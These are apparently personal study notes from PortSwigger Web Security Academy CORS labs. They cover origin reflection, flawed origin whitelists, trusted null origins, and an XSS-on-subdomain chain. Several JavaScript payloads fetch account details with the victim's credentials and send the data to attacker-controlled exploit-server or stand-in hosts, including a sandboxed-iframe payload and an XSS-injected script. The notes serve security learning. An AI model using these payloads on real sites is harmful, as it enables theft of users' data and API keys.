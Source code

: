 ### Lab: CORS vulnerability with basic origin reflection
Some server may reflect origin in the response. i.e. if the req contains:
```
Origin: http://any.com
```
The response will contain the same origin as allowed if the server is configured to reflect origin:
```
Access-Control-Allow-Origin: http://any.com
```
If you can get user to click on the link that leads to your own website, and your own website contains the following script:
```
<script>
// both ways work

// var req = new XMLHttpRequest();
// req.onload = reqListener;
// req.open('get','https://0a9e001a04a2ac888bbfc28d00bf0063.web-security-academy.net/accountDetails',true);
// req.withCredentials = true;
// req.send();
// 
// function reqListener() {
//     console.log("in resp")
// //	location='//malicious-website.com/log?key='+this.responseText;
//     console.log(this.responseText)
// };

async function req() {
    const res = await fetch("https://vulnerable-website/accountDetails", {
        credentials: 'include',
    })
    const json = await res.text()

    window.location = 'https://your-server/exploit?key='+json
}
req()
</script>
```
Then you can make a request to that another website on behalf of the user


### Errors parsing Origin headers
Mistakes often arise when implementing CORS origin whitelists. Some organizations decide to allow access from all their subdomains (including future subdomains not yet in existence). And some applications allow access from various other organizations' domains including their subdomains. These rules are often implemented by matching URL prefixes or suffixes, or using regular expressions. Any mistakes in the implementation can lead to access being granted to unintended external domains.

For example, suppose an application grants access to all domains ending in:
```
normal-website.com
```
An attacker might be able to gain access by registering the domain:
```
hackersnormal-website.com
```
Alternatively, suppose an application grants access to all domains beginning with
```
normal-website.com
```
An attacker might be able to gain access using the domain:
```
normal-website.com.evil-user.net
```

### Whitelisted null origin value
### Lab: CORS vulnerability with trusted null origin
The specification for the Origin header supports the value null. Browsers might send the value null in the Origin header in various unusual situations:
- Cross-origin redirects.
- Requests from serialized data.
- Request using the file: protocol.
- Sandboxed cross-origin requests.

Some applications might whitelist the `null` origin to support local development of the application. 

In this situation, an attacker can use various tricks to generate a cross-origin request containing the value null in the Origin header. This will satisfy the whitelist, leading to cross-domain access. For example, this can be done using a sandboxed iframe cross-origin request of the form:
```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0ab8005504188db084705016001f0098.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
       location='https://exploit-0a99002204538de184ea4f6d0136005b.exploit-server.net/exploit?key='+encodeURIComponent(this.responseText);
</script>"></iframe>
```

### Lab: CORS vulnerability with trusted insecure protocols
This website has an insecure CORS configuration in that it trusts all subdomains regardless of the protocol
To solve the lab retrieve the administrator's API key (`GET /accountDetails` endpoint replies back the API key)

So we need a way of stealing admin's API key.
- The response to /accountDetails contains the Access-Control-Allow-Credentials header suggesting that it may support CORS.
- Send the request to Burp Repeater, and resubmit it with the added header Origin: http://subdomain.0a5a00e503089526801a213200ac0073.web-security-academy.net 
(Don't forget `http` or `https`. If you specify: `subdomain.0a5a00e503089526801a213200ac0073.web-security-academy.net` you're not gonna get `Access-Control-Allow-Origin` header in response)
- Since the origin is reflected in the Access-Control-Allow-Origin header, it confirms that the CORS configuration allows access from arbitrary subdomains, both HTTPS and HTTP.

After looking through the website's html, a subdomain was found (in the check stock req):
```bash
http://stock.lab-id.web-security-academy.net/?productId=1&storeId=1
```
After playing around with the endpoint we see that the `productID` is vulnerable to XSS.
e.g. if we send:
```bash
GET /?productId=4<script>alert(33)</script>&storeId=1 HTTP/2
Host: stock.0a5a00e503089526801a213200ac0073.web-security-academy.net
```
And here's the response that we get back:
```bash
HTTP/2 400 Bad Request
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 61

<h4>ERROR</h4>Invalid product ID: 4<script>alert(33)</script>
```
In the browser the response from above creates a `<script>` tab and executes js code.

So we try to make the victim make a request to `/accountDetails`, but we do it via subdomain, because we don't want CORS to stand on our way:
```bash
<script>
    document.location="http://stock.0a5a00e503089526801a213200ac0073.web-security-academy.net/?productId=4<script>const req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0a5a00e503089526801a213200ac0073.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-0a9000fb03cd95ce8034206201520055.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```

